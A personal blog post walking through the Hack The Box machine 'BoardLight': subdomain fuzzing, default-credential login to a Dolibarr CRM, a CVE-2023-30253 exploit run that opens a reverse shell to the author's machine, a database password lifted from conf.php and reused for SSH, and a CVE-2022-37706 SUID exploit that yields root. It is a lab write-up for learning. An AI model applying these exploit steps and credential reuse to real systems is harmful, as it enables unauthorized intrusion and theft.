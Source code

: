 ```yaml
---
draft: false
title: "Hack the Box #4 - BoardLight without Metasploit"
date: 2024-08-08
author: William
category:
  - Tech
tags:
  - Linux
  - Security
  - Hacking
cover:
  image: hack_the_box_4_boardlight.png
  alt: hack_the_box_4_boardlight.png
---
```

This evening I felt like cutting my teeth a little bit more. So lets spin up this box and give it a poke.

---
## Enumeration 

Kicking off this baby with an nmap
![https://i.imgur.com/EOD1dhH.png](https://i.imgur.com/EOD1dhH.png#center)

In doing so we find port 22 and 80 are the only ones open. _I did a full port scan after to the avail of no extra dice_

Browsing the website we don't find much. All links are get requests to the server so nothing there. We do get the website URL however _**Board.htb**_ that we can add to our hosts file.

So lets see what they aren't showing us with a little bit of directory brute forcing with gobuster…

![https://i.imgur.com/TyAgDp1.png](https://i.imgur.com/TyAgDp1.png#center)

Nothing of to much interest. How about subdomains? FUFF!!!! Weirdly when I started out, FUFF would give me all or nothing.

```bash
# All the errors
ffuf -w /usr/.....top100000.txt -u <http://FUZZ.permx.htb> -mc 200 -o ffuf.scan

# Or All the 200s 
ffuf -w /usr/.....top100000.txt -u http://IP_ADDRESS -H "Host: FUZZ.DOMAIN_URL" -mc 200 -o ffuf.scan
```

This had me stumped for longer then I would care to admit… until I discovered a glorious FUFF feature that I’m kicking myself for not knowing `-ac` Auto calibration. Oh where have you been all my life! Once we apply that flag a subdomain pops out in a matter of seconds `crm.board.htb`

![https://i.imgur.com/qE876A5.png](https://i.imgur.com/qE876A5.png#center)

Now we are cooking, with a sus login portal. Looking into the known exploits for this software, we find this git repo [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) but this requires authentication… Default creds for this tool are **admin/admin** but that wont work right… right?!

---
### Exploitation 

Well the creds work, though the permissions seem to be removed, but no matter.
```bash
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

And with that we have a cheeky reverse shell. Looking at the home file we find the user ***larissa***. But lets keep digging in what this dolibarr is… after some googling we find this little nugget of info about the [Configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) and can be found at **conf/conf.php**. Whacking this badboy with a grep for db
```bash
<crm.board.htb/htdocs/conf$ cat conf.php | grep "db"  
...
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```
We got a password… Would this work against the user?

```bash
└─$ ssh larissa@10.10.11.11    
larissa@boardlight:~$ cat user.txt
============ USER_FLAG ============
```

oh baby!

---
### Privilege Escalation

Now to start the enumeration of the box. Lets push **linpeas** onto this badboy and run that. In do so Linpeas finds some interesting files with permissions

```bash
...
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                   
                      ╚════════════════════════════════════╝                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                            
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                
...
```

and one cursory google search away and we find this cheeky [PrivEsc](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh), pushing it onto the box

```bash
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can\'t find in /etc/fstab.
# whoami
root
# cat /root/root.txt
============ ROOT_FLAG ============
```

With that we are done with both flags in the bag. Its time to treat myself with going outside and touching grass... Just one blade
![Grass.png](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExdHZiaHY2ZjcwbXEycXp1dnp5cXV5aG5peWtnMWRtODhkaTd0dWQ0NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jVk5ebwWGahBS/giphy.gif#center)

Oh and the [rubber stamp](https://www.hackthebox.com/achievement/machine/1695260/603) from hack the box